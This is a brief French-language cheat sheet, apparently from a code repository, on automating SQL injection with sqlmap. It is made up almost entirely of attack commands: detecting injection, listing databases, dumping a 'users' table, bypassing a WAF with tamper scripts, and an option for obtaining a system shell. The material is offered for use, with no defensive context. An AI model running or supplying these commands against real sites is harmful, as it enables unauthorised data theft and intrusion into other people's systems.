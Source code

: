 🛠 Attaque : Injection SQL
📌 Description : Automatise l'exploitation de vulnérabilités SQL dans les bases de données.
🔑 Commandes clés :
# Détecter une injection SQL
sqlmap -u "http://site.com/page?id=1" --batch

# Extraire les bases de données
sqlmap -u "http://site.com/page?id=1" --dbs

# Extraire une table spécifique
sqlmap -u "http://site.com/page?id=1" -D dbname -T users --dump

# Bypass WAF
sqlmap -u "http://site.com/page?id=1" --tamper=space2comment

⚙️ Options utiles :
--dbs : Lister les bases de données.
--dump : Extraire les données d’une table.
--os-shell : Obtenir un shell système.
--tamper : Contourner les protections (WAF).
